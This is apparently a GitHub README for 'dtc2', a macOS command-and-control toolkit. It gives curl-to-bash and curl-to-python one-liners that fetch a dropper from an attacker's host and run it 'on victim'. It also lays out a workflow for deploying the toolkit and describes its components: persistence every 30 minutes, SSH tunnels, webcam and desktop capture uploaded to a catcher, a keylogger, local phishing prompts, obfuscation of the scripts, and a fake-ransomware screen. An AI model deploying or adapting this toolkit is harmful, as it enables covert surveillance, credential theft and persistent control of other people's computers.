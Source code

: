 # dtc2
Duct Tape Command and Control!
This is just a compilation of scripts to help dig in a little bit and move around. It's designed to be used with tools like pupy, empire and metasploit, by adding functionality that those toolsets don't currently have, or is not easy to run in certain circumstances. It's designed to 'hook' a host by running a one-liner, so it can be deployed quickly from a keyboard, a ducky, a bash bunny, a platypus .app, or really any other way you want to run it. The easy way is like so:
> curl -s https://haxsite.lol/launch.sh | bash 

or, if you've used the packer:

> curl -s https://haxsite.lol/launch.sh.py | python


## WARNING
You will ABSOLUTELY NEED to go into these files and edit them: cups.sh, launch.sh, tunnel.sh, upload.php, snapshot.sh. There are placeholders for where you need to put the domain or ip or host you intend to host some of these things on, and some small tweaks, but nothing that won't take you ~3 minutes.
------
It's worth considering creating a 'generator' shellscript to spit out the 'finished' versions of these files so that you don't have to edit a bunch of files every time you wish to use dtc2. 

## DISCLAIMER
------
Most of this code has been cobbled together, duct tape and bailing wire style (duct tape c2, get it now?), it is horribly vulnerable, and could use a lot of polish and work.


## A quick file list:
------
- **Airport.sh**: this is just a shortcut to the airport binary on OSX
- **geo.m**: you compile this into a binary to get GPS coords from macs
- **tunnel.plist**: this is a plist that runs tunnel.sh, to make sure an ssh tunnel stays alive (not required, but there in case you need it)
- **imagesnap**: a binary that takes webcam pics (yes, it does fire the green light)
- **launch.sh**: this is the initial dropper. It creates dirs, and installs files, scripts binaries, etc, launches first evil things. You'll want to modify this.
- **cups.sh**: This is the main runscript that runs every 30 minutes. Modify this as you see fit.
- **tunnel.sh**: a simple bash loop to keep an ssh tunnel alive.
- **gallery.html**: a terrible, but simple drop-in gallery
- **snapshot.sh**: a terrible shellscript to take pictures of desktop/webcam and upload them to the crappy upload.php catcher
- **getImages.php**: this builds the imagelist for the gallery html
- **style.css**: css for gallery
- **upload.php**: terrible file upload catcher. gets files for you and dumps them in a gallery dir
- **osascript.sh**: an example of osascript, used to locally-phish a user. try it on yourself! :D
- **almondrocks72.py**: A slightly modified version of the almondrocks python proxy, for python 2.7
- **almondrocks3.py**: Same thing, but for python3.
- **printdebug**: The ruby keylogger, torn out of powershell empire so it is standalone. It writes to /tmp/debug.db.
- **printproxy**: the "proxy2" python proxy, for python 2.7, slightly modified so that it listens on more than localhost
- **packer.py**: a thin layer of obfuscation - encodes shellscripts into base64, and runs them through python to hide cleartext. Probably a good idea to run on cups.sh, launch.sh and snapshot.sh once you're done editing them. Remember to chmod things correctly and change the file extention in launch.sh if you use this. It'll create .py files. Just make sure everything lines up.


## WORKFLOW:
------
  buy hosting/vm -> setup webserver/letsencrypt/basicauth/etc -> create all your payloads -> stand up your listeners -> edit launch.sh and cups.sh -> pack .sh files -> upload to your site/vm/etc -> launch on victim using **curl -s haxsite.lol/launch.py | python &**

You may also want to drop the gallery files into place somewhere so you can upload them. It is **STRONGLY ADVISABLE** to use letsencrypt and apache/nginx basic auth so that your victims can't just stumble across your files, and that you aren't transmitting things in the clear.


## PIRATE
------
In this directory are some files:
- **WebViewScreenSaver.saver**: a screensaver file, borrowed from https://github.com/liquidx/webviewscreensaver - modified so that the default url to open is **file:///tmp/pirate/index.html**
- **css, js, scss, index.html**: an HTML5, animated version of the archer pirate virus, with no sound
- **wannacry.jpg**: a screenshot of the wannacry ransomware application window
- **launch.sh**: the script that does the thing.

Launch.sh, when run, will drop the piratevirus files and the jpg into /tmp, it will drop the .saver file into ~/Library/Screen Savers/, then it will set the screensaver options in osx to require a password, and set the wait time for the password to 0. It'll then use osascripting to set the wannacry jpg to the desktop on all available desktops, and then select the webviewscreensaver as the main screensaver, and launch it.


As an exercise left to the reader, at this point you can elect to install the plist for an ssh tunnel if you wish, or modify cups.sh to conduct any sort of post-exploit ops you wish. 

One idea is to add another 'curl to bash' line at the end and have it fetch somethinglike 'additonal instructions' as a shellscript to run in the event you want an asycnchronous command to be run, say in the event you lose all of your shells, or they install little snitch or something. 

Please help me make this thing awesome?
